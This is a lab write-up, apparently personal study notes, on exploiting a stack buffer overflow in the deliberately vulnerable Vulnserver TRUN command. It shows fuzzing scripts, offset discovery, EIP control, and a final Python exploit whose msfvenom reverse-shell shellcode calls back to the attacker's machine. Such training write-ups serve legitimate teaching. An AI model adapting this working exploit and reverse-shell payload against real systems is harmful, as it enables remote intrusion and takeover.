






# Requirements :

- WIndows VM
- Vulnserver (https://github.com/stephenbradshaw/vulnserver)
- ImmunityDebugger

Here we're going to do a BO on vulnserver and ID will be used to show what happen in the software.

General explanation of buffer overflow can be found here : [[Buffer_Overflow]] Buffer_Overflow


##  Set up :
Launch vulserver and immunity as admin, attach vunl to immunity then run

Check from kali that the vulnserver is up and running : nc -nv "IP" 9999


## Spiking and Fuzzing

Sending a bunch of specific characters to break something

In Spinking we try multiple command, In Fuzzing we focus on a specific command

The most important thing is to control the EIP value 

### Setting up the spiking exploitation

We're gonna use "generic_send_tcp" which need a spike_script, here is the usage of gstcp :

```
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0`
```
The first try will be using "STATS" as spike with the code bellow :

```
s_readline();
s_string("STATS ");
s_string_variable("0");
```
Command `generic_send_tcp 172.16.227.139 9999 stats.spk 0 0`

This allow us to see what happend in immunitydebugger, but the vulnserver is not vulnerable to STATS.

Next try with trun with the same command and just the s_string modified trom STATS to TRUN and we have an overflow :

We can see all the "AAAAAA" and the EBP and EIP taking the hex value of A

### Setting up the fuzzing exploitation

Here's the python code used for this BO :

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('172.16.227.139',9999))

                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A"*100

        except:
                print "fuzzing crashed at %s bytes" % str(len(buffer))
                sys.exit()
```
This script is gonna crash the program and give us a close byte to crash to find the offset

## FInding the Offset

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`

Here 3000 is a close byte around where the program crashed with the previous script

So now we can modify our script to include the offset.

```python
#!/usr/bin/python
import sys, socket

offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9"

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('172.16.227.139',9999))

        s.send(('TRUN /.:/' + offset))
        s.close()

except:
        print "error"
        sys.exit()

```
Just after launching the script the program failed and give us an interesting value of EIP :

EIP 386F4337

We can now use another metasploit tool to send the offset :
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337`

We got this answer : `Exact match at offset 2003` So now we know we can try to control EIP at this offset

### Overwrite the EIP

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('172.16.227.139',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "error"
        sys.exit()
```

We're sending 2003 A because it's here that the EIP START, then we send B so we can confirm the correct place of the EIP (because EIP would be 42424242 as 42 = B)

And we confirm the correct place of the EIP :


#### Finding bad characters

After adding python badchars in the script we crashed the vulnserv again and look in the hexdump if something appears



So, no bad characters here sadly

#### Finding the right module

For this part we use "mona module" in immunity debugger, this allow use to find DDL whiout protections



We need to find the app code equivalent to a jump using nasm

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
nasm > JMP ESP
00000000  FFE4              jmp esp
```


Using 625011af we found a breakpoint that indicate us that we can affect the EIP and overflow correctly the buffer.

Using msfvenom we generate our payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.227.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b"\x00"
```
And then the last iteration of our script to pwnd the software :

```
#!/usr/bin/python
import sys, socket

of = (
"\xd9\xc3\xb8\x0c\x7a\x29\xfd\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x42\x17\x83\xc2\x04\x03\x4e\x69\xcb\x08\xb2\x65\x89"
"\xf3\x4a\x76\xee\x7a\xaf\x47\x2e\x18\xa4\xf8\x9e\x6a\xe8\xf4"
"\x55\x3e\x18\x8e\x18\x97\x2f\x27\x96\xc1\x1e\xb8\x8b\x32\x01"
"\x3a\xd6\x66\xe1\x03\x19\x7b\xe0\x44\x44\x76\xb0\x1d\x02\x25"
"\x24\x29\x5e\xf6\xcf\x61\x4e\x7e\x2c\x31\x71\xaf\xe3\x49\x28"
"\x6f\x02\x9d\x40\x26\x1c\xc2\x6d\xf0\x97\x30\x19\x03\x71\x09"
"\xe2\xa8\xbc\xa5\x11\xb0\xf9\x02\xca\xc7\xf3\x70\x77\xd0\xc0"
"\x0b\xa3\x55\xd2\xac\x20\xcd\x3e\x4c\xe4\x88\xb5\x42\x41\xde"
"\x91\x46\x54\x33\xaa\x73\xdd\xb2\x7c\xf2\xa5\x90\x58\x5e\x7d"
"\xb8\xf9\x3a\xd0\xc5\x19\xe5\x8d\x63\x52\x08\xd9\x19\x39\x45"
"\x2e\x10\xc1\x95\x38\x23\xb2\xa7\xe7\x9f\x5c\x84\x60\x06\x9b"
"\xeb\x5a\xfe\x33\x12\x65\xff\x1a\xd1\x31\xaf\x34\xf0\x39\x24"
"\xc4\xfd\xef\xeb\x94\x51\x40\x4c\x44\x12\x30\x24\x8e\x9d\x6f"
"\x54\xb1\x77\x18\xff\x48\x10\x8b\x10\xb1\x60\xbb\x12\x35\x70"
"\x60\x9a\xd3\x18\x88\xca\x4c\xb5\x31\x57\x06\x24\xbd\x4d\x63"
"\x66\x35\x62\x94\x29\xbe\x0f\x86\xde\x4e\x5a\xf4\x49\x50\x70"
"\x90\x16\xc3\x1f\x60\x50\xf8\xb7\x37\x35\xce\xc1\xdd\xab\x69"
"\x78\xc3\x31\xef\x43\x47\xee\xcc\x4a\x46\x63\x68\x69\x58\xbd"
"\x71\x35\x0c\x11\x24\xe3\xfa\xd7\x9e\x45\x54\x8e\x4d\x0c\x30"
"\x57\xbe\x8f\x46\x58\xeb\x79\xa6\xe9\x42\x3c\xd9\xc6\x02\xc8"
"\xa2\x3a\xb3\x37\x79\xff\xd3\xd5\xab\x0a\x7c\x40\x3e\xb7\xe1"
"\x73\x95\xf4\x1f\xf0\x1f\x85\xdb\xe8\x6a\x80\xa0\xae\x87\xf8"
"\xb9\x5a\xa7\xaf\xba\x4e")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + of

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('172.16.227.139',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "error"
        sys.exit()
```

Using netcat to listen on 4444 we got reverse shell and root access directly.

## This end the buffer overflow part